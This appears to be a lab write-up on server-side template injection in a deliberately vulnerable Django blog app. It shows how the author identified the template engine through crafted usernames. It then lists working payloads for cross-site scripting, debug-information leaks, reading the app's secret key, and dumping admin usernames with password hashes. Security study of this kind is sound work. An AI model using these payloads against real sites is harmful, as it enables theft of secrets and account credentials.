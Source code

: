 # Server Side Template Injection

Observe the setting page [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__. So I try to test SSTI here.

![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)

## Solution

When I try to register an account. I realized it didn't control the username format and this web use Django framwork. So I can register an account with an special username.

### B1. Identify the underlying engine.
Python has some template engine such as Tornaldo, Jinja, Django. Now , sign up an account with username is a formula evaluation. 

`{{ 7 * 7 }}`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)

Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`{% debug %}`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)

__Successfully__, It displayed debug content in username. 

### B2. Exploit

After indentify the template engine that it's using is DJT. We can exploit futher.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
